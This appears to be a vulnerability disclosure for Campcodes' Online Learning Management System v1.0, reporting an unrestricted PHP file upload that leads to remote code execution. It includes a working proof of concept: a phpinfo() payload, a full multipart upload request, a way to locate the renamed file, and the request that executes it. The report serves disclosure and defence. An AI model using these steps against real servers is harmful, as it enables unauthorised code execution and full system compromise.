





---

---

## Title: Arbitrary File Upload to RCE in Online Learning Management System

**BUG_Author:** Chenkh

**Affected Version:** Online Learning Management System (OLMS) v1.0

**Vendor:** [**https://www.campcodes.com/**](https://www.campcodes.com/)

**Software:** [Complete Online Learning Management System In PHP MySQL Source Code | Campcodes](https://www.campcodes.com/downloads/complete-online-learning-management-system-in-php-mysql-source-code/)

**Vulnerable File:**

- `application/models/Crud_model.php`
- `application\views\frontend\default\lessons.php`
- `application\views\frontend\default\lessons.php`

## Description:

1. **Arbitrary File Upload via Insufficient Validation:**

   

   - In `application/models/Crud_model.php`, the file upload functionality for lesson attachments fails to validate file extensions against a secure whitelist.
   - The application renames uploaded files to a random 32-character MD5 hash but blindly appends the original user-supplied extension. This allows an attacker to upload malicious executable scripts (e.g., a `.php` web shell) directly into the `/uploads/lesson_files/` directory.

2. **Path and Filename Disclosure via Frontend View:**

   

   - Although the uploaded file is renamed to a random MD5 hash, the frontend view file `application/views/frontend/default/lessons.php` (lines 142-145) dynamically generates a download link for the attachment.
   - This directly exposes the exact directory and the newly generated MD5 filename in the HTML source code, allowing an attacker to easily locate their uploaded web shell without brute-forcing.

   3.**Remote Code Execution (RCE) Impact:**

   - By navigating to the exposed file path (`/uploads/lesson_files/<md5_hash>.php`), the malicious PHP code is parsed and executed by the Web Server (e.g., Apache/Nginx). This grants the attacker full remote code execution and leads to complete system compromise.

   

   

## Proof of Concept:

1. **Prepare the Malicious Payload:** Create a file named `shell.php` with the following content to test code execution:

   ```PHP
   <?php phpinfo(); ?>
   ```

2. **Upload the Payload:** Authenticate as a normal user/student and submit a `POST` request to the lesson attachment upload endpoint. Ensure you include a valid `ci_session` cookie:

   ```HTTP
   POST /admin/lesson/add HTTP/1.1
   Host: <target-ip>
   Cookie: ci_session=<your_valid_session_cookie>
   Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
   
   ------WebKitFormBoundary
   Content-Disposition: form-data; name="attachment"; filename="shell.php"
   Content-Type: application/x-php
   
   <?php phpinfo(); ?>
   ------WebKitFormBoundary--
   ```

3. **Extract the Generated Filename:** Send a `GET` request to the lesson page where the attachment was uploaded (e.g., `/home/lesson/cv/1/10`). Search the HTML response body for the generated 32-character MD5 filename ending in `.php`:

   

   *Example extracted filename: `035c0291f7e287b51f9ca6632d300ea6.php`*

4. **Execute the Payload (RCE):** Access the uploaded file directly via the web browser or `curl`:

   ```HTTP
   GET /uploads/lesson_files/035c0291f7e287b51f9ca6632d300ea6.php HTTP/1.1
   Host: <target-ip>
   ```

5. **Verify the Exploit:** The server will return the `phpinfo()` page, confirming that arbitrary PHP code has been successfully executed on the target system.